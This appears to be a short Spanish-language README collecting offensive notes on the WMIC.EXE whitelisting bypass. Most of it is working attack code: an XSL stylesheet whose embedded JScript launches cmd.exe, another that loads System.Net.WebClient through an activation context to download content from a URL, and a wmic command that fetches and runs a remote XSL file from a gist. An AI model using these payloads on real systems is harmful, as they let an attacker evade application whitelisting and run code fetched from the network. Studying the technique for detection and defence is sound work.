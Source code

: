# Mostrar los procesos que se están ejecutando en Windows con WMIC
https://www.jesusninoc.com/2018/05/01/mostrar-los-procesos-que-se-estan-ejecutando-en-windows-con-wmic/

# XML 
https://www.w3schools.com/xml/simplexsl.xml

# XSL
https://www.w3schools.com/xml/simple.xsl

# XSL que ejecuta CMD
```XSL
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("cmd.exe");
	]]> </ms:script>
</stylesheet>
```

# XSL que descarga
```XSL
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
		
			
	var manifest = '<?xml version="1.0" encoding="UTF-16" standalone="yes"?><assembly manifestVersion="1.0" xmlns="urn:schemas-microsoft-com:asm.v1"><assemblyIdentity name="System" version="4.0.0.0" publicKeyToken="B77A5C561934E089" /><clrClass clsid="{7D458845-B4B8-30CB-B2AD-FC4960FCDF81}" progid="System.Net.WebClient" threadingModel="Both" name="System.Net.WebClient" runtimeVersion="v4.0.30319" /></assembly>';
	
	try {
		var ax = new ActiveXObject("Microsoft.Windows.ActCtx");
		ax.ManifestText = manifest;
		
		var obj = ax.CreateObject("System.Net.WebClient");
		var webstuff = obj.DownloadString("http://www.example.com");
		var a = new ActiveXObject("WScript.Shell").Popup(webstuff);
		
	} catch(e) {
		WScript.Echo("Error: " + e.message);
	}
	]]> </ms:script>
</stylesheet>
```

# WMIC.EXE Whitelisting Bypass - Hacking with Style, Stylesheets
https://subt0x11.blogspot.com.es/2018/04/wmicexe-whitelisting-bypass-hacking.html

```CMD
wmic os get /format:”https://gist.githubusercontent.com/caseysmithrc/68924cabbeca1285d2941298a5b91c24/raw/78065ca63504c9a0f41107137fbe861de487e4d4/minimalist”
```
